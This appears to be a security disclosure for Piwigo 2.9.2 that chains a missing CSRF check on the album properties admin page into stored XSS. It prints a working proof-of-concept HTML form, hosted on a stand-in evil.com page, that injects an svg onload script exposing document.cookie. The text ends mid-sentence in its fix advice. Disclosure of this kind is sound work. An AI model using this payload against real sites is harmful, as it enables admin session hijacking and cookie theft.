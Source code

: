 ### piwigo - XSS/CSRF vulnerability

Well,  when I pentest the latest version piwigo 2.9.2, I found some vulnerabilities here.

```
http://demo.com/piwigo/admin.php?page=album-3-properties
```

#### CSRF:

For example, the admin panel has no csrf protection here , we can do something evilly to the admin user.


##### XSS[stored xss]:

With the csrf , we can cheat the admin user to visit the evil webpage on the evil site:

```
http://evil.com/evil.htm
```

The xss poc content in the evil.htm:

```
<html>
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://demo.com/piwigo/admin.php?page=album-3-properties" method="POST">
      <input type="hidden" name="name" value="test&apos;&quot;&gt;&lt;svg&#47;onload&#61;alert&#40;document&#46;cookie&#41;&gt;&lt;&apos;&quot;" />
      <input type="hidden" name="comment" value="test" />
      <input type="hidden" name="parent" value="0" />
      <input type="hidden" name="visible" value="true" />
      <input type="hidden" name="commentable" value="true" />
      <input type="hidden" name="submit" value="" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```

At last, the admin user write evil stored-xss content to the admin panel by himself, the evil attacker don't need to login into admin panel personally.

![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/piwigo/xss1.png)

![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/piwigo/xss2.png)

We should add some sec-character-filter to the output of the site , even in the admin panel.
Also , adding csrf protection to the important operation in the pa




